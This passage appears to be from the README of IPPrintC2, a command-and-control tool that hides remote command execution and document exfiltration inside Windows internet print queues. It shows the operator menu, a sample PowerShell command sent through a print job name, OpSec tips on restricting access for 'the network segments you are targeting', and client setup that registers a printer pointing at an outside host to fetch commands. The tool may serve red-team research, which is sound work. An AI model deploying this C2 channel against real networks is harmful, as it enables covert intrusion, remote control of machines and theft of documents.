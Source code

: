 ```
PS C:\Users\administrator\Desktop> .\IPPrintC2.ps1
IPPrint C2 Server
1. Select the default C2 printer.
2. Enter the command to execute on the client through the document name.
3. Enter the path of the PowerShell script you would like to execute.
4. Exfiltrate remote documents.
5. Read IIS logs.
6. Clear the print queue.
7. Kill all clients.
8. Quit.
What do you want to do?: 2
To print output of multiple commands, use this: [scriptblock]$x={whoami;hostname;ipconfig};$x.invoke()
Enter commands you wish to execute: [scriptblock]$x={whoami /all;hostname};$x.invoke()
```
You can also load PowerShell scripts. Keep the scripts simple as they may take a while to get split and sent to the document queue. Also, the scripts are one-off since the print queue eventually gets cleared and the character limit is 32767.

#### OpSec
* Be sure to use the whitelist approach for the network segments you are targeting, otherwise anyone can access your print queue.
* It is recommended to set up SSL for obvious reasons. The easiest way to setup SSL:
    * Setup / generate a DNS record for your VM
    * <https://certifytheweb.com/> can be used to automate CSR and installation
    * Make sure to edit site bindings under IIS to enable HTTPS and disable HTTP
	* <https://docs.microsoft.com/en-us/iis/manage/configuring-security/how-to-set-up-ssl-on-iis>


### Client
To execute commands on the client, the addition of a printer and a persistent job to obtain and execute commands is needed. Examples:

```
PS C:\Users\regular> Add-Printer XPS -PortName https://somewhere.on.azure.com/printers/af/.printer -DriverName "Microsoft Print To PDF"

PS C:\Users\regular> Get-Printer XPS |fl


Name                         : XPS
ComputerName                 :
Type                         : Local
ShareName                    :
PortName                     : https://somewhere.on.azure.com/printers/af/.printer
DriverName                   : Microsoft Print To PDF
Location                     :
Comment                      :
SeparatorPageFile            :
PrintProcessor               : winprint
Datatype                     : RAW
Shared                       : False
Published                    : False
DeviceType                   : Print
PermissionSDDL               :
RenderingMode                :
KeepPrintedJobs              : False
Priority                     : 1
DefaultJobPriority           : 0
StartTime                    : 0
UntilTime                    : 0
PrinterStatus                : Normal
JobCount                     : 0
DisableBranchOfficeLogging   :
```